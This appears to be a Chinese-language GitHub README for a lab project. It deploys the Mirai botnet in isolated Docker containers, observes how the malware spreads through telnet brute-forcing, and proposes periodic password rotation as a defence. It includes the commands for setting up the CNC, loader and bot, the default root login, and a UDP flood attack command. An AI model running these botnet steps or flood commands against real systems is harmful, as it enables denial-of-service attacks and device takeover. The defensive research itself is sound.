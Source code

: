 # Docker Setup
## 建立給Docker的網路
    docker network create --subnet=172.20.0.0/16 botnet 
## CNC （控制病毒的Server)
    sudo docker run --net botnet --ip 172.20.0.2 -it cnc
![CNC](cnc.png)
## Loader (負責將病毒注入)
    sudo docker run --net botnet --ip 172.20.0.4 -i -t loader 
    ./init.sh
![Loader](loader.png)
## 感染源
    sudo docker run --net botnet -i -t bot 
    ./init.sh 0/1  # 1 for scanner 

# 如何攻擊
## 連線到CNC 
    telnet "IP" 
    ＃username/password : root
![CNClogin](cnclogin.png)
## Attack(udp)
    udpplain targetIP 5 dport=UDPport
# Mirai觀察結果
由於Mirai是由多種語言寫成，且為了防止被破解，在多處採用隱晦的寫法撰寫，導致原始碼讀取不易。所以我們採用打開Debug模式觀察病毒的運行。
## 感染源
如果有打開Scanner模式，病毒便會掃描網路中的裝置是否開啟telnet port (23)，一但發現便會用簡單密碼字典暴力破解。
## 成功感染
密碼破解後，病毒會向Loader傳送裝置資訊以注入病毒。 \
受感染後，會掃描是否有其他病毒並將其清除(600秒一次)
![search](search.png)
## 其他
在看過網路上資安專家的原始碼分析後，還有發現裝置感染後病毒會馬上消滅任何使用port 22,23,80(ssh,telnet,http)的process
# 遭遇的問題
## 計畫書構想
當初解決方案是發現病毒後，由於病毒只在RAM，遠端reboot就可以將其清除，但由於ssh telnet http都被關閉，這使遠端控制幾乎不可能
## 消滅方法
目前有人反制mirai的方式是利用他處理http redirect的漏洞，如果server redirect一個空的Location給他，他便會在字串處理中buffer overflow，導致整個病毒crash，但這僅限執行http flood攻擊時且為server端的反制方法
# 新方案 
## 預防
由於受感染後裝置無法遠端控制，預防勝於治療，在一定時間後，由主控端將管理的裝置密碼更改成新的複雜密碼
## 優點
Mirai的變種大多數還是使用字典攻擊，複雜密碼可以預防被破解，定期更換可以反制線上更新字典的變種Mirai \
通用性高
## 問題討論
### 產生密碼
需要找出好方法產生“隨機”且安全的密碼 避免重複 
### 密碼保存
明碼儲存可能有資安問題
### 通訊安全
由於大多數iot裝置無法使用太多複雜功能，ssh在某些裝置可能無法使用，telnet還是佔大多數(不安全?)

